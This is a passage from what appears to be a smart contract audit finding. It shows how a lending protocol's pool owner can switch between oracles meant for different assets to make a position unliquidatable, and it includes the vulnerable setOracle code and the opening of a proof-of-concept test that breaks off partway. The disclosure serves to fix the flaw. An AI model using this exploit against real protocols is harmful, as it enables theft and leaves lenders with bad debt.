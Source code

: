 While this situations could occur organically under some extreme circumstances, it can also be intentionally constructed by a user to create a non-liquidatable account.

This is because the creator of a pool is able to choose their own oracles for each asset. While these are constrained to known oracles, `isKnownOracle` does not track the asset for which the oracle is intended. As a result, an attacker can easily shift between known oracles for different assets to dramatically change the value of a given token. For example, the oracle could be shifted from a "known oracle" for USD to a "known oracle" for ETH to 4000x the value.

```solidity
function setOracle(address pool, address asset, address oracle) external {
    // revert if the oracle is not recognized by the protocol
    if (!isKnownOracle[oracle]) revert Errors.UnknownOracle();

    // only pool owners are allowed to set oracles
    if (msg.sender != Pool(pool).owner()) revert Errors.onlyPoolOwner();

    // update asset oracle for pool
    oracleFor[pool][asset] = oracle;
}
```

The result is that an attacker can set up a pool which uses a fake, valueless token, and choose a low value oracle for the token. If they borrow a lot of it and transfer it out of their position (which will be fine if they are sufficiently collateralized), then when the oracle is flipped to a high value oracle, their positions `debt > assets`. The position will thus be safe  from liquidations because all calls to `isPositionHealthy()` will revert.

Furthermore, any time they want to take an action, they can change the oracle back to low value, perform the action, and reset it to high value, allowing them to use the account as normal but permanently be shielded from liquidations.

### Proof of Concept

The following test can be dropped into `ScpBorrowTest.t.sol` to demonstrate the vulnerability:
```solidity
function testZach_UnderflowUnliquidatable() public {
        // there are two approved oracles which accurately return ETH and USD prices
        FixedPriceOracle ethOracle = new FixedPriceOracle(1e18); // 1 collat token = 1 eth
        FixedPriceOracle usdOracle = new FixedPriceOracle(1e18 / 4000); // 1 collat token = 1 usd
        riskEngine.toggleOracleStatus(address(ethOracle));
        riskEngine.toggleOracleStatus(address(usdOracle));

        // start the attack (no longer have access to permissioned functions)
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);

        // to begin the attack, create a pool with a fake token
        MintableToken fakeToken = new MintableToken();
        Pool phonyPool;
        {
            FixedRateModel rateModel = new FixedRateModel(0); // 0% apr
            PoolDeployParams memory params = PoolDeployParams({
                asset: address(fakeToken),
                rateModel: address(rateModel),
                poolCap: type(uint256).max,
                originationFee: 0,
                name: "phony pool",
                symbol: "PHONY"
            });
            phonyPool = Pool(poolFactory.deployPool(params));
        }

        // set the oracle for the fake token to be valued as USD
        riskEngine.setOracle(address(phonyPool), address(fakeToken), address(usdOracle));
```